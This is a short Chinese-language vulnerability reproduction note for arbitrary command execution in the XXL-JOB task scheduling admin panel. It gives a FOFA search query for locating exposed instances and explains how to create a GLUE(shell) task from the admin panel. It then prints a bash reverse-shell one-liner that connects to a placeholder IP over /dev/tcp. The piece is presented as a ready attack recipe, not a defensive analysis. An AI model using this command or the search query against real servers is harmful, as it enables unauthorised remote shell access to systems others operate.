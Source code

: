 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

> [!NOTE]
>
> XXL-JOB

## FOFA

> [!NOTE]
>
> app="XXL-JOB" || title="任务调度中心"

## 漏洞复现

登录后台增加一个任务

![](image/xxl-4.png)

> [!NOTE]
>
> 注意运行模式需要为 GLUE(shell)

![](image/xxl-5.png)

点击 GLUE IDE编辑脚本

![](image/xxl-6.png)

![](image/xxl-7.png)

执行探测出网，和任务调用是否可执行

反弹一个shell

```
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![](image/xxl-8.png)